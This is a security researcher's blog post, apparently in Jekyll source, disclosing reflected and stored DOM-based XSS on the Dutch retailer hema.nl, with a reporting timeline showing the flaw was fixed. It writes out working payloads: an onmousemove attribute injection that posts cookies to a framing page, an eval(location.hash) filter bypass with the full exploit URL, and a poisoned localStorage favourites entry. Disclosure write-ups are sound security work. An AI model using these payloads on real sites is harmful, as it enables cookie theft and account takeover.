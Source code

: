 ```yaml
---
layout: post
title: Cross-site-scripting on one of the largest Dutch franchisors
subtitle: Reflected and "Stored" DOM-based cross-site-scripting on hema[dot]nl.
description: By abusing a sensitive data exposure vulnerability it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting. Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.
keywords: xss, cross-site, scripting, hema, dutch, franchisor, dom, dom-based, sensitive, data, exposure
include_in_header: false
include_in_footer: false
show_in_post_list: false
robots: index, follow
---
```


By abusing a sensitive data exposure [vulnerability](https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure){:target="_blank"}{:rel="noopener noreferrer"} it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using [cross frame scripting](https://www.owasp.org/index.php/Cross_Frame_Scripting){:target="_blank"}{:rel="noopener noreferrer"}. Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.

> Please note that I used FireFox to test this vulnerability since browsers like Chrome, Safari and Edge have built in XSS auditors, which filter some of the reflected XSS.

{% 
    include lightbox.html 
    image="/img/xss-on-hema-one-of-the-largest-dutch-franchisors/xss-auditor-block.png"
    title="Google Chrome's XSS auditor"
    album="xss-auditor-block"
    width="364"
    height="52"
%}

### Proof of Concept (reflected XSS)
While examining hema.nl I found some interesting XHR calls. One of them was `ListerQuickView.aspx`, which contained a lot of GET parameters.

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=12345`

I tried to inject JavaScript in all the parameters but it didn't really work. Especially because they blocked all requests if the URL contained a `<` sign followed by another character. The value of one of the parameters, `productSku`, was used as an attribute value. This made it possible to execute JavaScript using the `onmousemove` event. Unfortunately the `onload` event couldn't be used since the element it got injected in was a div.

You can find the payload I used below. The inline CSS causes the div to overlap all content (this increases the chance that `onmousemove` is triggered). The `parent.postMessage` passes the cookie to the parent frame on mouse move.

`&productSku=tes" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="parent.postMessage(cookie, '*')">as`

Which resulted in the following HTML:

{% 
    include lightbox.html 
    image="/img/xss-on-hema-one-of-the-largest-dutch-franchisors/xss-payload-in-source.jpg"
    title="Payload in HTML"
    album="image-xss-payload"
    width="1937"
    height="174"
%}

We can now place this piece of art in an iframe, which results in cross frame scripting.

### Proof of Concept (Stored DOM-based XSS)

Making it "Stored DOM-based XSS" is a bit more difficult. I divided it into two steps, bypassing the input restrictions and inserting the JavaScript payload into the local storage.

#### Bypassing Hema's input restrictions

The DOM-based XSS vulnerability contains a little bit more code. Lets use the previous payload and edit it to look like this:

`data-message="message" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="eval(location.hash.substring(1))"`

This code executes the JavaScript from the `location.hash`. I used `location.hash` since hema.nl blocks a lot of characters, like `<` and `{`, and the `location.hash` will not be included in the request, so hema.nl will never know about it.

In my location hash I wrote `#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)})`.

I use `arguments[0].originalTarget.attributes[4].value` (where `arguments[0]` is the `onmousemove` event) to get the value of the fourth attribute of our div, which is the string `message`. I couldn't just add the string `"message"` to `addEventListener` since quotes in the hash are converted to `%22`, which results in an unexpected `%` character.

So all this code basically sets a listener for messages on mouse move. Using cross frame scripting we can now execute all the code we want in the hema.nl iframe using `postMessage`.

`document.getElementById('hema').contentWindow.postMessage('alert(document.cookie)', '*')`

Which results in:

{% 
    include lightbox.html 
    image="/img/xss-on-hema-one-of-the-largest-dutch-franchisors/xss-alert-cookie.png"
    title="Alert on mouse over"
    album="image-alert-cookie"
    width="1166"
    height="181"
%}

This is the full URL that I used:

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=tes%22%20data-message=%22message%22%20style=%22width:100%;height:100%;position:absolute;top:0;left:0;%22%20onmousemove=%22eval(location.hash.substring(1))%22%20data-test=%22as#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)});`

#### Making it "Stored DOM-based XSS"

Hema stores some interesting JSON in the local storage. For example, they store all the products that I added to my favorites.

A product that I added to my favorites looks like this:

{% highlight json %}
{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"3,-",
}
{% endhighlight %}

And ofcourse, using our postMessage, we can edit it so it looks like this (note the `onload` in the imgUrl):

{% highlight json %}
{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg\" onload=\"alert(document.cookie)",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"3,-",
}
{% endhighlight %}

Hema loads the favorites and shows the image without encoding the URL. Which means every time the victim navigates to hema.nl an alert will pop up.

So there you go, Stored DOM-based XSS!

{% 
    include lightbox.html 
    image="/img/xss-on-hema-one-of-the-largest-dutch-franchisors/xss-stored-proof.png"
    title="Stored DOM-based XSS in hema.nl"
    album="image-stored-dom-based-xss-alert-cookie"
    width="456"
    height="414"
%}

### Domains
<a href="http://www.hema.nl/" target="_blank" rel="noopener">www.hema.nl</a> (vulnerable)
<br>
<a href="http://www.hema.fr/" target="_blank" rel="noopener"><s>www.hema.fr</s></a> (protected by CloudFlare)
<br>
<a href="http://www.hema.be/" target="_blank" rel="noopener"><s>www.hema.be</s></a> (not vulnerable)
<br>
<a href="http://www.hemashop.com/" target="_blank" rel="noopener"><s>www.hemashop.com</s></a> (not vulnerable)

### Timeline
<div class="table-responsive">
    <table class="table">
        <thead>
            <tr>
                <th>Date</th>
                <th>Activity</th>
            </tr>
        </thead>
        <tbody>
            <tr>
                <td>11 Dec 2016 18:43:34 GMT</td>
                <td>Reported the vulnerability to Hema.</td>
            </tr>
            <tr>
                <td>12 Dec 2016 09:23:21 GMT</td>
                <td>Hema is investigating the vulnerability.</td>
            </tr>
            <tr>
                <td>15 Dec 2016 13:54:56 GMT</td>
                <td>Hema confirmed the vulnerability.<br>Hema will be releasing a fix in week 51.</td>
            </tr>
            <tr>
                <td>20 Dec 2016 19:11:44 GMT</td>
                <td>Hema fixed the vulnerability.</td>
            </tr>
            <tr>
                <td>20 Dec 2016 19:14:41 GMT</td>
                <td>Public disclosure.</td>
            </tr>
        </tbody>
    </table>
</div>
